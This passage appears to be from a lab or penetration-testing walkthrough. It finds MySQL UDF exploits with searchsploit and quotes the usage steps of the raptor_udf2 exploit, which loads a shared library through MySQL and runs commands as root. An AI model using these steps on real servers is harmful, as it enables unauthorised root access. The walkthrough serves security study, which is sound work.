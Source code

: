 Kali already contains a large number of exploits, so we can just use `searchsploit` to search for UDF: 

```
root@kali:~# searchsploit mysql udf
---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                    |  Path
                                                                                                                                  | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)                                                            | exploits/linux/local/1181.c
MySQL 4/5/6 - UDF for Command Execution                                                                                           | exploits/linux/local/7856.txt
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                                           | exploits/linux/local/1518.c
---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

I used the third one: `exploits/linux/local/1518.c`. I copied this over to my current working directory and the instructions on how to use it are described in the file (again, cut for brevity): 

```
root@kali:~# cat 1518.c
.
.
.
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
.
.
.
```
